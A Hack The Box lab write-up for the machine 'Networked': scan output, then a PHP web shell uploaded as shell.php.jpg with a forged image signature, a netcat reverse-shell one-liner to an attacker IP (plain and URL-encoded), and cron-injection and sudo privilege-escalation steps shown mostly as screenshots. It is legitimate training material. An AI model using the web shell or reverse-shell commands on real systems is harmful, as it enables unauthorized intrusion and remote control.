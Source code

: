 ```yaml
---
title: "[HTB] Machine: Networked"
description: "[HTB] Machine: Networked"
date: 2023-06-23
menu:
  sidebar:
    name: "[HTB] Machine: Networked"
    identifier: htb-machine-networked
    parent: htb-machines-linux
    weight: 10
hero: images/networked.png
tags: ["HTB"]
---
```


# Networked
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.146                   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-23 17:13 BST
Nmap scan report for 10.10.10.146 (10.10.10.146)
Host is up (0.51s latency).
Not shown: 921 filtered tcp ports (no-response), 76 filtered tcp ports (host-unreach)
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2275d7a74f81a7af5266e52744b1015b (RSA)
|   256 2d6328fca299c7d435b9459a4b38f9c8 (ECDSA)
|_  256 73cda05b84107da71c7c611df554cfc4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.91 seconds

```
- `gpbuster`
```
└─$ gobuster dir -u 10.10.10.146  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,html,txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.146
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2023/06/23 17:21:53 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 207]
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/photos.php           (Status: 200) [Size: 1302]
/upload.php           (Status: 200) [Size: 169]
/lib.php              (Status: 200) [Size: 0]
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/]
/.html                (Status: 403) [Size: 207]
```
- Web server

![](./images/1.png)

- Backup

![](./images/2.png)
![](./images/3.png)

## Foothold
- Source code

![](./images/4.png)
![](./images/6.png)
![](./images/5.png)

- Let's try a web shell
  - `<?php system($_GET['cmd']); ?>`
  - Create a file named `shell.php.jpg` and add `jpg` signature via `hexeditor`
    - https://en.wikipedia.org/wiki/List_of_file_signatures
  - Upload to server

![](./images/8.png)
![](./images/9.png)
![](./images/7.png)
![](./images/10.png)
![](./images/11.png)
![](./images/12.png)

- Spawn reverse shell
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.7 6666 >/tmp/f`
  - Url encode: `rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20%2Di%202%3E%261%7Cnc%2010%2E10%2E16%2E7%206666%20%3E%2Ftmp%2Ff`

![](./images/13.png)

## User
- Enumeration

![](./images/14.png)
![](./images/15.png)
![](./images/16.png)

- It's a cron job, so we can try command injection since we control the `$value`
  - Let's create payload file and launch our listener

![](./images/17.png)
![](./images/18.png)

- And we got our user
## Root
- `sudo -l`

![](./images/19.png)

- So let's abuse that according to link below
  - https://seclists.org/fulldisclosure/2019/Apr/24

![](./images/20.png)
